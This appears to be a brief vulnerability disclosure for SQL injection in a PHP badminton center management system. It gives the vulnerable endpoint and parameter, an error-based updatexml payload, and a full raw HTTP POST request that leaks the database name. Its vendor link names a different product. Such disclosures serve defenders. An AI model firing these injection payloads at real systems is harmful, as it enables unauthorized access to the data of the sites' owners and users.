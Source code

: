 # badminton-center-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Date: 2022-05-06

Vulnerability File: /bcms/classes/Master.php?f=delete_court_rental

Vulnerability location: /bcms/classes/Master.php?f=delete_court_rental, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /bcms/classes/Master.php?f=delete_court_rental HTTP/1.1
Host: bcms.com
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://bcms.com
Referer: http://bcms.com/bcms/admin/?page=court_rentals
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4gth9auqof3f53e4gedjm3dct2

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)